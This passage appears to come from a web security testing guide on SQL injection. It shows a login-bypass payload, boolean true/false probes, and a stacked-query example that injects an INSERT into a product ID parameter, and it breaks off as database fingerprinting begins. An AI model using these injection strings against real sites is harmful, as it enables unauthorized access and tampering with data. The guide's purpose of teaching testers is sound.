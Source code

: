     $username = 1' or '1' = '1')) LIMIT 1/* 

    $password = foo 

In this way, we create a request like the follow:

    http://www.example.com/index.php?username=1'%20or%20'1'%20=%20'1'))%20LIMIT%201/*&amp;password=foo 

#### Example 2 (simple SELECT statement):

Consider the following SQL query:

    SELECT * FROM products WHERE id_product=$id_product

Consider also the request to a script who executes the query above:

    http://www.example.com/product.php?id=10

When the tester tries a valid value (e.g. 10 in this case), the application will return the description of a product. A good way to test if the application is vulnerable in this scenario is play with logic, using the operators AND and OR.

Consider the request:

    http://www.example.com/product.php?id=10 AND 1=2

    SELECT * FROM products WHERE id_product=10 AND 1=2

In this case, probably the application would return some message telling us there is no content available or a blank page. Then the tester can send a true statement and check if there is a valid result:

    http://www.example.com/product.php?id=10 AND 1=1

#### Example 3 (Stacked queries):

Depending on the API which the web application is using and the DBMS (e.g. PHP + PostgreSQL, ASP+SQL SERVER) it may be possible to execute multiple queries in one call.

Consider the following SQL query:

    SELECT * FROM products WHERE id_product=$id_product

A way to exploit the above scenario would be:

    http://www.example.com/product.php?id=10; INSERT INTO users (…)

This way is possible to execute many queries in a row and independent of the first query.

### Fingerprinting the Database

Even though the SQL language is a standard, every DBMS has its peculiarity and differs from each other in many aspects like special commands, functions to retrieve data such as users names and databases, features, comments line etc.

When the testers move to a more advanced SQL injection exploitation they need to know what the back end database is.

1\) The first way to find out what back end database is used is by observing the error returned by the application. The following are some examples of error messages:
